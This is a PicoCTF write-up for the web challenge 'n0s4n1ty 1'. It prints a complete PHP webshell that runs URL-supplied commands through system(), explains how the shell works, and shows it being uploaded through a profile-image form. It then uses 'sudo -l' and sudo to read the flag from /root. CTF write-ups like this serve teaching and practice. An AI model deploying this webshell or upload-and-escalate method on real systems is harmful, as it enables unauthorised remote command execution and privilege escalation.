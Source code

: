 ```yaml
---
title: n0s4n1ty 1
published: 2025-08-07
description: Solving n0s4n1ty 1 – PicoCTF Writeup.
image: ''
tags: [CTF, picoctf, web]
category: PicoCTF
draft: false
---
```

The challenge starts by giving us a simple page containing just a profile upload interface.

![upload interface](./image1.png)

Trying to type or browse through the URL doesn’t give us anything — only a page error. With that, we can assume that the easiest way (and probably the intended way) to proceed is to **upload a shell**.

We don’t need to overthink and build something from scratch — simple solutions often work. So, after a quick search, we found this **simple PHP webshell** shared on Discord (https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985):

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>

```

### Breaking down the code into simple steps:

- `<form>` → Creates a **form with an input box and a button**.
- `method="GET"` → Means it will **send the text via the URL** (at the top of the browser).
- `name="<?php echo basename($_SERVER['PHP_SELF']); ?>"` → Just gives the form a name using the current file name.
- `<input type="TEXT" name="cmd">` → This is the **box where you type a command**.
- `<input type="SUBMIT">` → This is the **“Execute” button**.
- `if (isset($_GET['cmd']))` → Checks if someone **typed something and pressed the button**...
- `system($_GET['cmd'] . ' 2>&1');` → The server **runs the command in the terminal** and shows the result.

After uploading the file, the page refreshes and tells us that our file is located at `/uploads/photo.php`. Visiting that path, we see our shell is working as expected.

![](./image2.png)

We use the command `id` to check which user is running our commands. As expected, the user is **www-data**.

![](./image3.png)

One of the hints in the challenge tells us that, once we gain shell access, we should try running `sudo -l`. From this, we learn that the `www-data` user can execute anything **as long as it's run with `sudo`**

![](./image4.png)

As mentioned in the challenge, the flag is located in `/root`. And indeed, when we run the following command, there it is: 

![](./image5.png)

If we try just `sudo cat flag.txt`, it returns “file not found,” so we need to pass the **full path**. And with that, we successfully retrieve the flag.
